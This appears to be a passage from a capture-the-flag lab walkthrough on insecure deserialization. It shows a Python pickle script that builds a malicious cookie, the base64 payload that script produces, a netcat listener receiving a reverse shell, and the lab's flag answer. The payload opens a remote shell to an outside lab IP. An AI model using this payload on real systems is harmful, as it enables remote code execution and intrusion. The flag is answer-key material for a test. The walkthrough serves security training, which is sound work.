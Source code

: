 7. Ensure our netcat listener is still running:

8. Refresh the page. It will hang, refer back to your netcat listener:

>>If you have performed the steps correctly, you will now have a remote shell to your instance. No privilege escalation involved, look for the flag.txt flag!

```bash
# This is the payload to generate the malicious cookie

import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.9.2.107 7007 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))

# Run this to get the cookie value and then go ahead and then change the encodedpayload cookie value to malicious cookie and then submit it.Before that create a netcat listener. 

┌[rawbot@pwnbox]─[/home/rawbot/Downloads]
└╼[★]$ python3 pickleme.py 
b'gASVcwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFhybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOS4yLjEwNyA3MDA3ID4gL3RtcC9mlIWUUpQu'
                                                     
┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ nc -lvnp 7007  
listening on [any] 7007 ...
connect to [10.9.2.107] from (UNKNOWN) [10.10.246.12] 42898
/bin/sh: 0: can't access tty; job control turned off
$
$ cd /home/cmnatic
$ cat flag.txt
4a69a7ff9fd68
```
## Answer the questions below

57.flag.txt
>>4a69a7ff9fd68

----

# Task 27 [Severity 9] Components With Known Vulnerabilities - Intro
----

